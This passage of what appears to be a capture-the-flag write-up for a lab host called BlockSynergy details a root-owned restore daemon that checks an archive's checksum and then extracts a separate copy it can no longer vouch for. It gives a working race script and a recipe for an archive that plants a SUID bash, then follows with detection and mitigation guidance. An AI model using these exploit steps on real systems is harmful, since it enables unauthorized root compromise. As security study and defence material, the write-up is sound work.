


[pspy.log](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/BlockSynergy/pspy.log.zip "Results")

##### Understand the restore workflow

Creating this sentinel requests a restore:

```bash
touch /opt/blocksynergy/restore
```

The daemon:

1. Checks the SHA-256 of the FTP archive against the root-owned manifest.
2. Downloads the validated archive into `/var/restore_work/_opt_blocksynergy.tar.gz`.
3. Extracts the downloaded copy as root with:

```text
/bin/tar xvf /var/restore_work/_opt_blocksynergy.tar.gz -C /
```

`/var/log/restore.log` confirms the behavior:

```text
[*] restore file found!
[*] Checksum verified. Restoring /opt/blocksynergy...
[*] /opt/blocksynergy restored
```

If the FTP archive is replaced before validation, the log contains:

```text
[*] Checksum mismatch! Restore aborted.
```

This is why directly overwriting the FTP copy is not the exploit.





#### Root cause: post-checksum TOCTOU in `/var/restore_work`

The checksum covers the FTP object. The daemon then downloads a separate local copy into a group-writable directory and later extracts that local pathname.

This creates a time-of-check/time-of-use gap:

```text
FTP archive passes root-owned checksum
  -> clean archive downloaded into /var/restore_work
  -> attacker atomically replaces the downloaded directory entry
  -> root tar opens the attacker archive
```

The swap must occur only after the clean download is complete. On the tested image, the clean archive was larger than 10 MB. Use the completed file size as the signal.

Use exactly one atomic replacement:

```bash
cp /home/hank/suid.tar.gz /var/restore_work/.swp
mv -fT /var/restore_work/.swp \
  /var/restore_work/_opt_blocksynergy.tar.gz
```

Do not continuously copy over the destination. A busy copy loop can corrupt the gzip stream while root is reading it.


#### (Optional) harmless validation of the race

Before planting a SUID binary, the same race can be validated with a harmless nonce-bound text file:

```bash
NONCE=<NONCE>
STAGE=/home/hank/.probe_$NONCE
mkdir -p "$STAGE/opt/blocksynergy"
printf 'RACE_PROBE:%s\n' "$NONCE" \
  > "$STAGE/opt/blocksynergy/.race_probe_$NONCE"

tar --numeric-owner --owner=0 --group=0 --mode=0644 \
  -czf /home/hank/probe.tar.gz \
  -C "$STAGE" "opt/blocksynergy/.race_probe_$NONCE"
```







Arm the watcher without creating the sentinel and confirm that the marker remains absent. Then create the sentinel, perform the single atomic swap, and require all of these postconditions:

```text
owner=root
group=root
mode=0644
content=RACE_PROBE:<NONCE>
```

A printed `SWAPPED` line alone is not proof.



#### Build the malicious SUID archive

Create a tar archive containing `/bin/bash`, transformed to `/opt/blocksynergy/.diag` and carrying root ownership plus mode 4755:

```bash
tar --numeric-owner \
  --owner=0 \
  --group=0 \
  --mode=4755 \
  --transform='s|^bash$|opt/blocksynergy/.diag|' \
  -czf /home/hank/suid.tar.gz \
  -C /bin bash
```

Verify the archive before triggering anything:

```bash
tar -tvzf /home/hank/suid.tar.gz
```

Expected metadata:

```text
-rwsr-xr-x 0/0 ... opt/blocksynergy/.diag
```


#### Win the restore race

Create `/home/hank/win.sh`:

```bash
#!/bin/bash
set -u

F=/var/restore_work/_opt_blocksynergy.tar.gz
TMP=/var/restore_work/.swp_<NONCE>
PAYLOAD=/home/hank/suid.tar.gz
DIAG=/opt/blocksynergy/.diag
LOG=/home/hank/win.log
END=$((SECONDS + 80))
SWAPPED=0

echo "ARMED" > "$LOG"

while [ "$SECONDS" -lt "$END" ]; do
  if [ -f "$F" ] && [ "$SWAPPED" -eq 0 ]; then
    SIZE=$(stat -c %s "$F" 2>/dev/null || echo 0)

    if [ "$SIZE" -gt 10000000 ]; then
      cp "$PAYLOAD" "$TMP" 2>/dev/null

      if mv -fT "$TMP" "$F" 2>/dev/null; then
        echo "SWAPPED size=$SIZE" >> "$LOG"
        SWAPPED=1
      fi
    fi
  fi

  # Do not exit on first sight of the file. Tar can expose a partial file
  # with temporary mode 0700 while extraction is still in progress.
  if [ -f "$DIAG" ]; then
    OWNER=$(stat -c %U:%G "$DIAG")
    MODE=$(stat -c %a "$DIAG")

    if [ "$OWNER" = "root:root" ] && [ "$MODE" = "4755" ]; then
      stat -c 'READY owner=%U:%G mode=%a size=%s' "$DIAG" >> "$LOG"
      echo "DIAG_READY" >> "$LOG"
      exit 0
    fi
  fi

  sleep 0.02
done

echo "TIMEOUT swapped=$SWAPPED" >> "$LOG"
exit 1
```

Run it and trigger the restore:

```bash
chmod 700 /home/hank/win.sh
nohup /home/hank/win.sh >/dev/null 2>&1 </dev/null &
sleep 1
touch /opt/blocksynergy/restore
```

Monitor the result:

```bash
tail -f /home/hank/win.log
```

Expected evidence:

```text
SWAPPED size=<CLEAN_ARCHIVE_SIZE>
READY owner=root:root mode=4755 size=<BASH_SIZE>
DIAG_READY
```

If the watcher misses the gap, remove stale temporary files and retrigger. The restore workflow downloads a fresh clean copy each time. Never use a continuous overwrite loop.



#### Root shell and root flag

Verify the extracted binary independently:

```bash
stat -c 'owner=%U:%G mode=%a size=%s' /opt/blocksynergy/.diag
```

Required state:

```text
owner=root:root mode=4755
```

Use bash preserve mode (`-p`) so the effective UID is not dropped:

```bash
/opt/blocksynergy/.diag -p
```

Or run a non-interactive proof:

```bash
/opt/blocksynergy/.diag -p -c 'id; cat /root/root.txt'
```

Expected identity:

```text
uid=1001(hank) gid=1003(hank) euid=0(root) groups=1003(hank),1001(developers)
<ROOT_FLAG>
```

The decisive property is `euid=0(root)`. File existence, archive metadata, or a `SWAPPED` marker alone is not root proof.


#### Cleanup

After recording the flags privately, remove only the artifacts created for the exploit:

```bash
rm -f /opt/blocksynergy/.diag
rm -f /opt/blocksynergy/restore
rm -f /var/restore_work/.swp_<NONCE>
rm -f /home/hank/suid.tar.gz
rm -f /home/hank/win.sh
rm -f /home/hank/win.log
```

Remove only your own SSH key line, identified by its unique comment:

```bash
sed -i '/blocksynergy-writeup$/d' /home/hank/.ssh/authorized_keys
```

Verify cleanup:

```bash
for path in \
  /opt/blocksynergy/.diag \
  /opt/blocksynergy/restore \
  /var/restore_work/.swp_<NONCE> \
  /home/hank/suid.tar.gz \
  /home/hank/win.sh; do
  [ ! -e "$path" ] || echo "leftover: $path"
done
```


## Defensive Operations

* **1.1 Definition:** A high-severity chain combining **an identity-verification flaw in a custom blockchain wallet loader**, **SSRF via an unfiltered loopback bypass (`0.0.0.0`)**, **shell command injection through a URL-parsing differential**, **a debug-only path-traversal file write in an internal contract engine**, and **a post-checksum TOCTOU race in a root-owned restore daemon** to achieve full root compromise of a single host from a single unauthenticated web request.

* **1.2 Impact:** **Full compromise of the BlockSynergy host**, from unauthenticated web access to `root`. The adversary progresses from a forged VIP wallet, through SSRF into a localhost-only admin panel, into OS command execution as a low-privileged web user (`walter`), pivots to a second, internal-only Flask service to gain SSH access as `hank`, and finally exploits a race condition in a privileged backup/restore daemon to plant a root-owned SUID shell.

* **1.3 The Scenario:** An adversary discovers that a custom blockchain application's wallet import function trusts a client-supplied public key without verifying it is mathematically derived from the paired private key. Because the full transaction history is public, the richest historical public key can be identified and grafted onto a freshly generated private key, producing a "VIP" wallet with no mining required. VIP-only node-management functionality exposes an SSRF primitive that reaches an otherwise localhost-restricted admin panel. A parsing differential between the node-registration validator and the administrator's `ping_node` action allows shell metacharacters to survive validation, yielding command execution as `walter`. Enumerating internal services reveals a second, developer-only Flask application; a debug logging hook in its contract engine permits a path-traversal file write, which is used to append an SSH key into `hank`'s `authorized_keys`. As `hank`, a root-owned cron job is observed backing up and restoring `/opt/blocksynergy` via a checksum-validated FTP round trip - but the daemon checksums the FTP object and later extracts a *different*, group-writable local copy, creating a TOCTOU window. Winning that race allows a malicious SUID `bash` to be extracted as root, yielding full compromise.

### System Architecture & Theory

* **2.1 Protocol Environment:**
  * **Web Application Layer:** Python/Flask (Werkzeug), custom blockchain/wallet/VIP/node-management application on port 8080.
  * **Internal Application Layer:** A second, developer-facing Flask application (`ContractEngine`) bound to `127.0.0.1:5000`, running as `hank`.
  * **Privilege Layer:** Root-owned cron (`*/5 * * * *`) driving `backup.sh` and a long-running `restore_daemon.sh`.
  * **Transfer Layer:** Local FTP service (`127.0.0.1:15432`) used as the backup/restore transport, with credentials passed on the command line.
  * **Filesystem Layer:** Group-writable staging directories (`/opt/blocksynergy`, `/var/restore_work`) shared between a low-privileged group (`developers`) and the root-run restore daemon.

* **2.2 Attack Logic Flow:**

  > [Public /blockchain balance reconstruction] -> [forged VIP wallet, no mining] ->
  > [VIP Node Management SSRF via 0.0.0.0] -> [localhost-only admin panel reached] ->
  > [URL-parser differential in ping_node] -> [command injection as walter] -> [user.txt] ->
  > [internal Flask app discovered on 127.0.0.1:5000] ->
  > [ContractEngine debug log-hook path traversal] -> [SSH key appended for hank] ->
  > [SSH shell as hank] -> [root cron observed via pspy64] ->
  > [FTP credential + restore workflow recovered] ->
  > [checksum-aware TOCTOU in /var/restore_work] ->
  > [root-owned SUID bash planted as /opt/blocksynergy/.diag] ->
  > [bash -p preserves euid=0] -> [root.txt]

* **2.3 Theoretical Analogy:** The attacker doesn't forge the safe's combination - they simply hand the teller a receipt that *claims* to belong to the richest account, and the teller never checks that the receipt matches the key used to open it. Once inside the VIP lounge, a mislabeled internal mail slot (`0.0.0.0`) lets them slip a note to the manager's office that the front desk would have refused. The manager's own "ping this address" tool reads the address two different ways depending on who's asking, so the attacker hides instructions in the part only the manager sees. Those instructions unlock a back room (a second, internal application) where a "leave a debug note" feature lets them slide a note under a colleague's door by walking it through a hallway that isn't supposed to lead there. From the colleague's desk, they watch the nightly courier (root's cron job) leave with a locked box, verified against a manifest - but the courier returns, unlocks a *different*, unguarded box using that manifest's stamp of approval, and the attacker swaps what's inside that second box in the instant between the stamp and the unlocking.

### Attack Vector (Mechanics)

#### Core Mechanism

| Attribute | Technical Details |
|:---------------------------------|:-------------------------------------------------------------------------------------------------|
| **Primary Identifiers** | Independent `private_key`/`public_key` fields in wallet import, SSRF loopback allowlist gap (`0.0.0.0` unblocked while `127.0.0.1`/`localhost` are), `ping_node` shell invocation from unsanitized URL components, debug-only `log` hook in `ContractEngine.run_hook()`, checksum validated against the FTP object but extraction performed against a separate, replaceable local path. |
| **Critical Weakness** | **Chained trust boundaries** - a public key trusted without derivation proof, a URL trusted for its hostname while shell metacharacters ride along unexamined, a debug file path trusted without canonicalization, and a checksum trusted to still describe the file that gets extracted minutes later. |
| **Offensive Technique** | Wallet-identity forgery -> SSRF loopback bypass -> shell metacharacter smuggling -> debug-hook path traversal -> post-checksum TOCTOU race -> SUID privilege escalation. |

#### Prerequisites

* **Initial Access:** Network access to the web application on port 8080; no authentication required to read `/blockchain` or create a wallet.
* **Credentials:** None required for initial RCE; the FTP credential and SSH foothold are recovered via the chain itself.
* **VIP State:** A historical wallet with a positive balance must exist somewhere in the public chain (true by default once any transaction has occurred).
* **Filesystem State:** `/opt/blocksynergy` and `/var/restore_work` must remain group-writable by `developers` for the TOCTOU window to be exploitable.
* **Timing State:** A completed backup upload must exist on the FTP server before the restore sentinel is created, or the daemon reports no backup found.

### Threat Hunting & Detection Engineering

#### Data Sources

| Data Source | Primary Use |
|------------------------------------|---------------------------------------------------------------------|
| Flask/Werkzeug access log (port 8080) | Wallet creation/load calls, VIP node registration, `ping_node` administrator actions |
| Flask access log (port 5000, ContractEngine) | Contract upload and mint-hook trigger requests |
| `/var/log/restore.log` | Restore trigger timestamps, checksum verification outcome, restore completion |
| `auth.log` / SSH logs | New-key SSH logons for `hank` |
| Process accounting / `pspy`-style monitoring | Cron-spawned `tar`/`curl` invocations exposing the FTP credential on the command line |
| Filesystem metadata (`stat`, `find -newer`) | Timing correlation for the swapped archive and the resulting SUID binary |

#### High-Priority Hunting Checklist

| Priority | Hunt | Signal |
|:-----------:|:-------------------------------------------------------------|:------------------------------------------------------------|
| Critical | Root-owned SUID binary appearing outside standard package paths | `find / -perm -4000 -type f` diffed against a known-good baseline |
| Critical | Wallet import where imported `public_key` balance jumps discontinuously for a newly created `private_key` | Application-layer audit log correlating wallet creation and load events per session |
| Critical | Outbound/loopback node-test requests targeting `0.0.0.0`, `[::]`, or other non-standard loopback spellings | Node-management request logs; treat any non-`127.0.0.1`/`localhost` loopback representation as high-signal |
| High | `ping_node` (or equivalent) administrator action invoked with a `target` URL containing shell metacharacters (`&`, `|`, `$IFS`) | WAF/reverse-proxy logging on admin-only routes |
| High | File writes into `/home/*/.ssh/authorized_keys` not correlated with a legitimate `ssh-copy-id`/provisioning event | File integrity monitoring on `authorized_keys` files |
| High | Cron-spawned process with credentials visible in its command-line arguments | Process-accounting / auditd `execve` logging (`proctitle` containing `ftp://user:pass@`) |
| Medium | Size of a file in a restore-staging directory changing between the daemon's checksum step and its extraction step | Two-point `stat`/hash comparison bracketing the extraction call, if daemon instrumentation permits |
| Medium | `restore` sentinel files created by non-root users in a directory owned by the backup pipeline | Filesystem audit rules (`auditctl -w`) on `/opt/blocksynergy` |

#### Investigation Methodology

1. **Identify the entry point** - correlate the first `/dashboard/wallet` "load" call with an unusually high VIP balance appearing for a freshly created private key.
2. **Identify the SSRF pivot** - look for VIP node registrations targeting `0.0.0.0` (or other non-`127.0.0.1` loopback forms) immediately followed by a `test_node` call whose response contains admin-only content.
3. **Identify the injection** - inspect `ping_node`/admin action `target` parameters for URL userinfo fields (`http://foo&...@host:port/`) that don't match the plain hostname the validator saw.
4. **Pivot to the internal service** - check for outbound `curl`/socket activity from the walter-owned process toward `127.0.0.1:5000`, and for a subsequent contract upload + mint request pair sharing one session cookie.
5. **Confirm the persistence mechanism** - diff `authorized_keys` for any host against its last known-good state; a single unexplained added line is the traversal's fingerprint.
6. **Bound the race window** - using `/var/log/restore.log` timestamps together with filesystem mtimes in `/var/restore_work`, establish the interval between "Checksum verified" and "restored" log lines; any third-party file write into that directory inside that interval is the TOCTOU event.
7. **Confirm the escalation** - a SUID-root binary with an atypical name and location (e.g. `/opt/blocksynergy/.diag`), together with a process later invoked with `euid=0` from a non-root shell, closes the chain.

### Detection Engineering

* **Application Layer:** Reject wallet imports where the supplied `public_key` cannot be derived from the supplied `private_key`; never trust an independently supplied identity field.
* **SSRF Defense:** Validate destination addresses after DNS resolution and on every redirect; block the full loopback/unspecified/private/link-local/metadata address space, not just the common string spellings (`127.0.0.1`, `localhost`).
* **Command Construction:** Never build shell commands from URL components; use argument arrays and strict allowlists so hostname parsing cannot diverge between a validator and a downstream consumer.
* **Debug Hooks:** Remove debug-only file-write hooks from anything internet- or internally-reachable in a non-dev environment; where unavoidable, resolve all file paths beneath an approved directory using canonical-path checks that reject traversal sequences.
* **Command-Line Secrets:** Never pass credentials (FTP, database, etc.) as command-line arguments to any process spawned by a privileged scheduler; use credential files or environment injection with restricted read permissions instead.
* **Restore/Backup Integrity:** Checksum and extract the *same* immutable object - hold a single file descriptor across validation and use, rather than checksumming one path and later extracting a separate, replaceable path in a group-writable directory.
* **Archive Extraction Hygiene:** Extract archives with restrictive ownership/mode policies, reject absolute or traversal paths inside the archive, and explicitly strip SUID/SGID bits on extraction regardless of what the archive claims.

### Resilience Test

* **Bypass:** An attacker who instead compromises any other account in the `developers` group inherits the same TOCTOU write access to `/var/restore_work`; detecting this one instance of `hank` being used for the race does nothing to close the underlying group-writable staging directory.
* **Sub-Rule Countermeasure:** Make root-owned restore staging directories root-only as a standing control, and require the restore daemon to validate and extract via a single held file handle - rather than relying on catching any individual race attempt after the fact.

### Defensive Mitigation

* **Identity Verification:** Derive and verify all cryptographic identity pairs server-side; never accept a public key as freestanding, unverified input.
* **SSRF Hardening:** Apply address-space validation post-resolution and on redirects; treat `0.0.0.0`, IPv6 loopback/mapped forms, and decimal/octal/hex IP encodings as equivalent to `127.0.0.1`.
* **Injection Prevention:** Parse URLs once, in one canonical library, and pass the same parsed structure to every downstream consumer (validator and executor alike) so no differential can exist between what is checked and what is used.
* **Debug Surface Reduction:** Strip debug-only code paths from any build reachable outside a fully isolated development network; where retained, apply the same path-canonicalization and directory-confinement checks used for user uploads.
* **Least-Privilege Staging:** Keep any directory a root-run process will later extract into root-owned and non-group-writable; if a lower-privileged producer must stage files, hand off through a root-owned intermediary step (e.g., a move performed by the privileged process itself, not a shared writable directory).
* **Secrets Handling:** Store transfer credentials in a permissions-restricted config or secret store, never on a command line visible via `/proc/<pid>/cmdline` to any user who can read process listings.

### Quick-Action Playbook

| Step | Objective | Technique / Concept |
|:---:|:-----------------------------------------|:--------------------------------------------------------------------------------------------------------------------------------------------|
| 1 | **Initial Access / Identity Forgery** | **VIP wallet forgery** - pair a valid private key with an unrelated, historically wealthy public key; wallet loader never checks derivation. |
| 2 | **SSRF Pivot** | **Loopback bypass via `0.0.0.0`** - VIP node-testing feature reaches the localhost-only `/admin` panel that direct requests cannot. |
| 3 | **Command Injection** | **URL-parser differential** - a crafted URL with shell metacharacters in userinfo is validated as one host but executed as a shell fragment by `ping_node`. |
| 4 | **User Foothold** | **RCE as `walter`** - base64-wrapped commands piped through `bash` via the injected `ping_node` target; `user.txt` retrieved. |
| 5 | **Internal Service Discovery** | **Loopback service enumeration** - `ss`/`curl` through the walter primitive reveal a second Flask app on `127.0.0.1:5000` running as `hank`. |
| 6 | **Path Traversal Persistence** | **ContractEngine debug `log` hook** - a crafted contract's `log_file` traverses to `/home/hank/.ssh/authorized_keys`, appending an attacker key. |
| 7 | **Lateral Movement** | **SSH as `hank`** - direct key-based login using the planted key. |
| 8 | **Privilege Recon** | **`pspy`-based cron observation** - reveals a root-run backup/restore cycle and an FTP credential visible in process arguments. |
| 9 | **Race Condition** | **Post-checksum TOCTOU** - the FTP-validated archive is downloaded into a group-writable path and swapped for a malicious archive before root's `tar` extracts it. |
| 10 | **Privilege Escalation** | **SUID `bash` extraction** - root's own extraction step plants a root-owned, mode-4755 `bash` at an attacker-chosen path. |
| 11 | **Full Compromise** | **`bash -p`** - effective UID preserved from the SUID bit; `root.txt` retrieved. |


